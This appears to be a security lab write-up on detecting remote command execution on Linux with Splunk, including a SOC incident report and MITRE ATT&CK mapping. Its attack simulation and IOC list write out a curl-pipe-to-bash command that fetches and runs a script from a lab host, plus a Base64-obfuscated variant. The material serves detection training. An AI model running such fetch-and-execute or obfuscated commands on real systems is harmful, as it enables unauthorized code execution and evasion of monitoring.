


# Suspicious Remote Command Execution Detection

---

## 1. Project Overview

This lab demonstrates detection of **malicious command execution on Linux** using:

- Remote script download and execution (`curl | bash`)
- Base64 obfuscated command execution
- Log analysis using Splunk SIEM

---

## 2. Objective

To simulate attacker techniques and detect:

- Remote payload execution
- Command obfuscation using Base64
- Suspicious shell activity

---

## 3. Lab Environment

| Component | Role |
|-----------|------|
| Kali Linux | Attacker (payload hosting) |
| Ubuntu | Victim (command execution) |
| Splunk (Windows) | SIEM for log analysis |

---

## 4. Attack Simulation

### 4.1 Attack 1 - Remote Script Execution

```bash
curl http://192.168.1.64:8000/shell.sh | bash
```

**Evidence:**



- Command executed successfully
- Output observed: Malicious script executed

### 4.2 Attack 2 - Base64 Obfuscated Execution

```bash
echo "curl http://192.168.1.64:8000/shell.sh | bash" | base64
# > Generated base64 string
echo "<base64_string_here>" | base64 -d | bash
```

**Evidence:**


- Base64 encoded string generated
- Decoded and executed successfully
- Output observed: Malicious script executed

---

## 5. Log Source Observed in Splunk

- `/var/log/syslog`
- `/var/log/auth.log`

---

## 6. Splunk Detection Query Used

```spl
index=* ("curl" OR "base64" OR "bash")
```

**Evidence:**



The following activities were observed:

- Multiple `/usr/bin/bash` executions
- Base64 decoding activity
- Shell session activity from users
- System logs indicating command execution context

---

## 7. SOC L2 Incident Report

### 7.1 Time of Activity

- **Date:** 26 March 2026
- **Time:** ~20:00 IST

### 7.2 Affected Entities

| Field | Value |
|-------|-------|
| Host | Ubuntu Virtual Machine |
| User | bluevarun |
| Source IP | 192.168.1.64 (Kali Linux) |
| Log Sources | syslog, auth.log |

### 7.3 Indicators of Compromise (IOCs)

- Execution of remote command using: `curl http://192.168.1.64:8000/shell.sh | bash`
- Base64 encoded command execution
- Presence of multiple bash executions
- Base64 decoding activity in logs
- External communication to attacker-controlled system

### 7.4 Classification: TRUE POSITIVE

### 7.5 Reason for Classifying as True Positive

- Confirmed execution of attacker-hosted script
- Command executed directly in memory using pipe (`curl | bash`)
- Obfuscation technique (Base64) used to hide intent
- Logs show correlated suspicious behavior: bash execution, Base64 decoding
- Activity aligns with known attacker techniques

### 7.6 Reason for Escalating the Alert

- Unauthorized remote code execution detected
- Obfuscation indicates intentional evasion
- External network communication observed
- Potential system compromise

### 7.7 Recommended Remediation Actions

- Block outbound traffic to untrusted IP addresses
- Restrict use of curl/wget for script execution
- Monitor and alert on Base64 execution patterns
- Implement command execution monitoring
- Apply least privilege access controls

---

## 8. MITRE ATT&CK Mapping

| Technique ID | Name | Description |
|--------------|------|-------------|
| T1059 | Command and Scripting Interpreter | Execution of commands via bash |
| T1027 | Obfuscated Files or Information | Base64 encoding used to hide malicious commands |
| T1105 | Ingress Tool Transfer | Downloading remote script via curl |

---
